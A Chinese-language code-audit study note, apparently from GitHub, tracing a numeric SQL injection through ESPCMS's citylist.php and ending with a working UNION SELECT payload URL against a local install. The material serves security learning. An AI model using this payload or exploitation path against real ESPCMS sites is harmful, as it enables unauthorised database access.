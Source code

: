 ## espcms-citylist注入


# 前言

- 代码审计学习-espcms
- 开始日期：2021-5.28
- 结束日期: 2021-5.28


## 环境准备
- PHPStudy
- espcms 源码
    - 下载地址：http://down.chinaz.com/soft/27695.htm
- Seay源代码审计工具

**环境搭建**

将epscms的upload里面所有源码放到网站www目录下,访问地址http://127.0.0.1/install，一路继续即可，注意数据库用户和密码改为自己的

![image](./img/espcms1.png)

## 审计过程

首先用seay源代码审计系统跑一下自动审计，如图：

![image](./img/espcms2.png)

分析其中的citylist.php文件(/adminsoft/control/citylist.php)
```php
$sql = "select * from $db_table where parentid=$parentid";
```
该SQL语句没有引号保护，可能存在数字型注入。 

定位$parentid变量

```php
$parentid = $this->fun->accept('parentid', 'R');
$parentid = empty($parentid) ? 1 : $parentid;

$sql = "select * from $db_table where parentid=$parentid";
$rs = $this->db->query($sql);
```

$parentid变量在oncitylist()函数中，是accept('parentid', 'R')函数的返回值，右键定位accept函数。

```php
	function accept($k, $var='R', $htmlcode=true, $rehtml=false) {
		switch ($var) {
			case 'G':
				$var = &$_GET;
				break;
			case 'P':
				$var = &$_POST;
				break;
			case 'C':
				$var = &$_COOKIE;
				break;
			case 'R':
				$var = &$_GET;  //让parentid变成变量
				if (empty($var[$k])) { //$_GET['parentid']
					$var = &$_POST;
				}
				break;
		}
		$putvalue = isset($var[$k]) ? $this->daddslashes($var[$k], 0) : NULL;
		return $htmlcode ? ($rehtml ? $this->preg_htmldecode($putvalue) : $this->htmldecode($putvalue)) : $putvalue;
	}

```
由此可知，这是一个获取GET、POST、COOKIE参数值的函数，我们传入的变量是parentid和R，则代表在GET与POST都可以获取parentid参数，最后经过了一个daddslashes函数，本质上是包装的addslashes()函数，对单双引号、反斜杆与空进行过滤。但前面的SQL语句是没有引号包含，存在数字型注入。

在citylistphp文件可用看到SQL语句在oncitylist()函数中，同时该函数又在important类中，右键选中该类名进行全局搜索。可以发现在index.php有实例化的类。

```php
$point = indexget('point', 'R'); //获取过滤后的point
$point = empty($point) ? 'admin' : $point;
$archive = indexget('archive', 'R'); //获取过滤后的$archive
$archive = empty($archive) ? 'adminuser' : $archive;
$action = indexget('action', 'R');//获取过滤后的action
$action = empty($action) ? 'login' : $action;
$soft_MOD = array('admin', 'public', 'product', 'forum', 'filemanage', 'basebook', 'member', 'order', 'other', 'news', 'inc', 'cache', 'bann', 'logs', 'template');
if (in_array($point, $soft_MOD)) {
	include admin_ROOT . adminfile . "/control/$archive.php";
	$control = new important();
	$action = 'on' . $action;
	if (method_exists($control, $action)) {
		$control->$action();
	} else {
		exit('错误：系统方法错误！');
	}
```

indexget函数跟accept函数功能是一样的。

### 漏洞触发

开头SQL语句位于`oncitylist()`函数，该函数时`important`类的成员函数，其所在文件为`/adminsoft/control/citylist.php`,因此上面文件包含我们先要包含这个文件，即`$archive=citylist`。

$archive 变量的取值范围是 /adminsoft/control 下的文件名，默认为 adminuser。
$action 变量的值，在其前加上 on 就是上述文件里的函数名，默认为 login。



payload如下：
```payload
http://127.0.0.1/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1%20union%20select%201,2,user(),4,5
```

![image](./img/espcms3.png)

黑盒测试发现得先需要登录后台才能利用，实战中并没有多大利用，就当代码审计学习了。
### Resource
https://6xian.github.io/2018/04/22/codes-audit-basic-espcms-numeric-sqli/

https://www.codenong.com/cs107094320/